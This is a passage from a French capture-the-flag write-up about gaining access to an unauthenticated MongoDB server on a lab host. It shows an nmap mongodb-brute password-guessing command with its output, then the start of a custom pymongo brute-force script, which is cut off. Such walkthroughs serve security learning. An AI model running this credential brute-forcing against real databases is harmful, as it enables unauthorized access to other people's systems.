 Comme on a rien, on se concentre sur le Mongo qui tourne sur un port non standard.  

On peut s'y connecter sans authentification (on peut utiliser au choix une GUI comme *Studio 3T*, un client console comme *mongo-client* ou une librairie comme *pymongo*) mais on s’aperçoit qu'aucune base ni collection n'est présente.  

S'agissant vraisemblablement d'une histoire de permission on va brute-forcer le password pour la base *admin* qui sert habituellement à l'authentification (avec le nom d'utilisateur *admin*).  

Nmap devrait faire l'affaire pour cela :  

```plain
$ nmap -p 27018 10.1.1.21 --script +mongodb-brute --script-args userdb=users.txt,passdb=/usr/share/wordlists/rockyou.txt
Starting Nmap 7.70 ( https://nmap.org )
Nmap scan report for 10.1.1.21
Host is up (0.045s latency).

PORT      STATE SERVICE
27018/tcp open  mongod
| mongodb-brute:
|   Accounts: No valid accounts found
|_  Statistics: Performed 21756 guesses in 888 seconds, average tps: 24.2

Nmap done: 1 IP address (1 host up) scanned in 924.78 seconds
```

Notez bien le signe *+* devant le nom du plugin *mongodb-brute* qui permet à Nmap de forcer l'utilisation du module sur un port non standard.  

Nmap aurait du faire l'affaire... mais ce n'est pas le cas. Une discussion avec *decart* (un autre participant) a confirmé que le password valide était bien dans cette wordlist. Il est même dans le top 500 des pires mots de passe. Bref Nmap merdouille :(   

On m'a conseillé un autre outil écrit en Go baptisé [go-mbf](https://github.com/c0nrad/go-mbf). Seulement... pas mieux.  

Papayaa
-------

Il est temps de se remonter les manches et d'écrire son propre outil de brute-force Mongo avec une librairie dont je suis sûr qu'elle fonctionne :  

```python
import sys
from multiprocessing import Process, Queue, Event
from queue import Empty

from pymongo import MongoClient
from pymongo.errors import OperationFailure

TARGET = "10.1.1.21"
PORT =  27018
USERNAME = "admin"
DATABASE = "admin"
PROCESS_COUNT = 4

def test_password(input_queue, stop_event, success_event, name):
    while True:
        try:
            password = input_queue.get(timeout=2)
        except Empty:
            if stop_event.is_set():
                print("Process {} is leaving (no more tasks)".format(name))
                break
        else:
            try:
                client = MongoClient(
```